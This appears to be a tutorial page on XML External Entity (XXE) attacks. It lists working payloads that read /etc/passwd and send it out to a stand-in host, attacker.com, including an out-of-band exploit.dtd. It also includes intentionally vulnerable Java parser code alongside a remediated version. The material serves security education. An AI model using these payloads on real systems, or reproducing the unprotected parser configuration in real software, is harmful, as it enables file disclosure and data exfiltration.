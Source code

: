 # XML External Entity Bypass (XXE)
This vulnerability can be found where XML data is accepted/parsed from input of external or user facing sources. The attack occurs when the XML parser does not have protections in place to limit or restrict what can be run from external sources. This can lead to data exposure, and other system impact. 


## Exploitable Fields
Fields, Files, or Endpoints that process XML data.

- Configuration files
- Data transfer formats
- API endpoints that process XML data

## Impact Of Exploit
The impact of an XXE exploit can vary widely:

- Data Exposure: Sensitive files or data can be disclosed, such as configuration files, passwords, or other private information.
- Denial of Service: The system can be overwhelmed by processing large or maliciously crafted entities, leading to denial of service.
- Server-Side Request Forgery (SSRF): Attackers can manipulate the server to send requests to other systems, potentially leading to further exploits or data breaches.
- Arbitrary Remote Code Execution: In some cases XML can be used to execute code on the system.


## Types of XML External Entity Bypass

### Traditional XXE
This involves directly injecting an external entity into the XML to read sensitive files or execute arbitrary requests.

The following maliciously crafted XML file will create an enitity that uses `SYSTEM` to read the file `/etc/password`. It then will execute the decalared element, which will pull the information inside the /etc/passwd file into the output XML file. 

```
<!DOCTYPE foo [  
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

### Blind XXE 
In a blind XXE attack, the user can not see the output of the XML, however can see the results of a successful attack in different ways. For instance, making a request to a web server, where the attacker can monitor for incoming requests. 

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/evil" > ]>
<foo>&xxe;</foo>
```

### XXE Out-of-Band (OOB):
To build on the Blind XXE, we can have the web request pull down more data (a more complex payload) from the attackers host.

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com/exploit.dtd" > %xxe; ]>
<foo>&send;</foo>
```

In this example, the exploit.dtd file could collect data from the hosts after being requested. It then would contain an entity call `send` that would be used to forward the information back to the web server. An example exploit.dtd file:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY send SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
```

### Parameter Entity Injection:
Parameter entities can be used in DTDs to define reusable parts of XML documents. Attacking parameter entities can sometimes bypass certain protections. In the following example we store the entities in the temp parameter of `%`.

```
<!DOCTYPE foo [ <!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#37; exfiltrate SYSTEM 'http://attacker.com/?data=%file;'>"> %eval; ]>
<foo>&exfiltrate;</foo>
```


## Vulnerable Sample Code
The following code sample is vulnerable to XML External Entity Bypass because it does not utalize any protections/features of DocumentBuilder meant to block certain inputs. 
```
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import org.w3c.dom.Document;
import java.io.StringReader;
import javax.xml.parsers.DocumentBuilderFactory;
import org.xml.sax.InputSource;

public class XXEVulnerable {
    public static void main(String[] args) throws Exception {
        String xmlInput = "<!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM \"file:///etc/passwd\" >]><foo>&xxe;</foo>";

        DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
        DocumentBuilder builder = factory.newDocumentBuilder();
        Document doc = builder.parse(new InputSource(new StringReader(xmlInput)));

        System.out.println(doc.getDocumentElement().getTextContent());
    }
}
```

## Remediated Sample Code
This remediated code sample prevents the XML External Entity Bypass exploit as it uses DocumentBuilderFactory features to limit input. This code specifically blocks declaring doctype, creating external general or parameter based entities, and loading external declarations. 
```
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import org.w3c.dom.Document;
import java.io.StringReader;
import javax.xml.parsers.DocumentBuilderFactory;
import org.xml.sax.InputSource;

public class XXEFixed {
    public static void main(String[] args) throws Exception {
        String xmlInput = "<!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM \"file:///etc/passwd\" >]><foo>&xxe;</foo>";

        DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
        factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
        factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        factory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);

        DocumentBuilder builder = factory.newDocumentBuilder();
        Document doc = builder.parse(new InputSource(new StringReader(xmlInput)));

        System.out.println(doc.getDocumentElement().getTextContent());
    }
}
```
